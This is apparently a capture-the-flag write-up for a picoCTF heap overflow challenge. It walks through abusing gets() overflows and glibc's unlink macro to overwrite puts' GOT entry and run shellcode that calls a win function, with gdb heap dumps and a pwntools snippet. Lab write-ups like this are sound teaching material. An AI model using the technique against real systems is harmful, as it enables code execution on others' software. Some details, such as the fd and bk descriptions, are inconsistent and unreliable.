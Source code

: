 # Heap Overflow (pwn, pico, heap-exploitation, heap-overflow, unlink macro, free, GOT)

### Notes:
- source code given
- binary given
- glibc 2.27

### Enumeration
Again, the code is very simple and we can immediately spot the code vulnerable use of `gets` calls. This allows the attacker to overflow the heap in 3 places.

### Exploit
Althought the code allows the attacker to overflow the heap in 2 places we will take advantage of just first one.

The flow will be as follows:
```c
[...]
gets(fullname); // send exploit
[...]
free(fullname); // the exploit will get invoked and will overwrite the got.puts entry with the shellcode addres
puts("That is all...\n"); // GOT is overwriten and so the shellcode will be executed. Shellcode will call win function
[...]
```

Before we dive in to writing an exploit, it is important to understand how free will call the `unlink macro`.
When small or large chunk is being freed the program checks if the previous (in memory) or next (in memory) chunk was already freed. If yes it will unlink them from the bins they are in and append them to the chunk which is being freed. Then this big chunk is placed in unsorted bin. This prevents memory fragmentation.

Let's look at the memory layout on heap, so it is easier to follow. Open a program under gdb and set breakpoint on the `free(fullname)` instruction. Then run the program providing AAAA..A as fullname, BBB..B as lastname.

```gdb
$ gdb -q vuln
Reading symbols from vuln...(no debugging symbols found)...done.
gdb-peda$ start
gdb-peda$ pd
   [...]
=> 0x080489ee <+15>:	sub    esp,0x10
   [...]
   0x08048a8b <+172>:	push   DWORD PTR [ebp-0xc]
   0x08048a8e <+175>:	call   0x8048710 <gets@plt>
   0x08048a93 <+180>:	add    esp,0x10
   0x08048a96 <+183>:	sub    esp,0xc
   0x08048a99 <+186>:	push   DWORD PTR [ebp-0x14]
   0x08048a9c <+189>:	call   0x8049aa4 <free>
   0x08048aa1 <+194>:	add    esp,0x10
   [...]
gdb-peda$ b *0x08048a9c
gdb-peda$ r < <(python -c "print 'A'*666 + '\x0a' + 'B' * 66 + '\x0a'")
Oops! a new developer copy pasted and printed an address as a decimal...
134537224
Input fullname
Input lastname
``` 

Ok, now when we hit a breakpoint let's check out a heap.

```gdb
gdb-peda$ vmmap
Start      End        Perm	Name
[...]
0x0804e000 0x08050000 rwxp	[heap]
[...]
0xfffdd000 0xffffe000 rwxp	[stack]
gdb-peda$ x/512wx 
gdb-peda$ x/512wx 0x0804e000
0x804e000:	0x00000000	0x000002a1	0x41414141	0x41414141
0x804e010:	0x41414141	0x41414141	0x41414141	0x41414141
[...]
0x804e210:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e220:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e230:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e240:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e250:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e260:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e270:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e280:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e290:	0x41414141	0x41414141	0x41414141	0x41414141
0x804e2a0:	0x00004141	0x00000049	0x00000000	0x00000000
0x804e2b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2e0:	0x00000000	0x00000000	0x00000000	0x00000049
0x804e2f0:	0x42424242	0x42424242	0x42424242	0x42424242
0x804e300:	0x42424242	0x42424242	0x42424242	0x42424242
0x804e310:	0x42424242	0x42424242	0x42424242	0x42424242
0x804e320:	0x42424242	0x42424242	0x42424242	0x42424242
0x804e330:	0x00004242	0x00000409	0x75706e49	0x616c2074
```

We can easly find fullname (0x804e00c) and lastname (0x804e2f0). Remember, we want the `free fullname` to invoke `unlink macro`. So we need a chunk before fullname or after fullname to be marked as freed. The fullname is the first block so we are left with a chunk after fullname.

We will abuse this glibc part of code:
```c
if (nextchunk != av->top) {
    /* get and clear inuse bit */
    nextinuse = inuse_bit_at_offset(nextchunk, nextsize);

    /* consolidate forward */
    if (!nextinuse) {
        unlink(av, nextchunk, bck, fwd);
        size += nextsize;
    }
    [...]
}
```

Our nextchunk is the `name` chunk. To mark this chunk as free we have to make sure the inuse bit is reset and the prev size is set.
```gdb
0x804e2a0:	..........  0x00000049	0x00000000	0x00000000
0x804e2b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2e0:	0x00000000	0x00000000	0x00000048	.........0 <- in use bit, this 4 bytes belong to lastname chunk
```

Ok, this should be enought to pass the conditional checks before `unlink`. 

Let's add a shellcode:

```assembly
shellcode:
    mov eax, 0x08048936; address of win function
    call eax
```

into our malicious chunk

```gdb
0x804e2a0:	..........  0x00000049	0x00000000	0x00000000
0x804e2b0:	0x048936b8	0x00d0ff08	0x00000000	0x00000000
0x804e2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2e0:	0x00000000	0x00000000	0x00000048	.........0 <- prev inuse bit, this 4 bytes belong to lastname chunk
```

Ok, so we just have to provide a `fd` and `bk`. As `fd` we will pass an address of `got.puts` - 12 and as `fd` an address of `win` function. The `unlink macro` will then overwrite `got.puts` with shellcode address. The address of heap is dynamic as the `ASLR` is enabled but we have a `firstname` address so we can calculate it.
The `got.puts` we get from objdump or by using pwntools:

```python
from pwn import *
e = ELF('vuln')
print(hex(e.symbols['got.puts'])) # 0x804d028
```


```gdb
0x804e2a0:	..........  0x00000049	0x0804d01c	0x0804e2b0
0x804e2b0:	0x048936b8	0x00d0ff08	0x00000000	0x00000000
0x804e2c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804e2e0:	0x00000000	0x00000000	0x00000048	.........0 <- prev inuse bit, this 4 bytes belong to lastname chunk
```

And this should be enought! [Let's try this out](exp.py).

